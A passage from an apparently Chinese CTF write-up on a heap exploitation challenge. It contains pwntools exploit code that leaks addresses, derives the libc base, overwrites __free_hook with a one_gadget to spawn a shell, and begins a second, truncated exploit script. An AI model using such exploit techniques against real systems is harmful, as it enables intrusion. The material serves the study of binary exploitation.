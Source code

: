```python
book_id_1, book_name, book_des, book_author = printbook(1)
book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:" + hex(book1_addr))

payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
editbook(book_id_1, payload)
changename("A" * 32)

book_id_1, book_name, book_des, book_author = printbook(1)
book2_name_addr = u64(book_name.ljust(8,"\x00"))
book2_des_addr = u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))
libc_base = book2_des_addr - 0x5b9010
log.success("libc base:" + hex(libc_base))

free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x10a38c 0x4f322
log.success("free_hook:" + hex(free_hook))
log.success("one_gadget:" + hex(one_gadget))
editbook(1, p64(free_hook) * 2)
editbook(2, p64(one_gadget))

deletebook(2)

io.interactive()
```

#### 簡潔方案

在任意讀寫之後，另一種找到 libc 的方案其實是可以在進行任意讀寫之前首先造成 libc 地址被寫在堆上，之後任意讀將其讀出來即可。

其中爲找到 libc 所在的偏移，可以直接通過 gdb 調試，查看具體 libc 地址在堆上的位置即可，不用進行刻意計算。

exp 如下：

```
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)

def cmd(choice):
    p.recvuntil('> ')
    p.sendline(str(choice))


```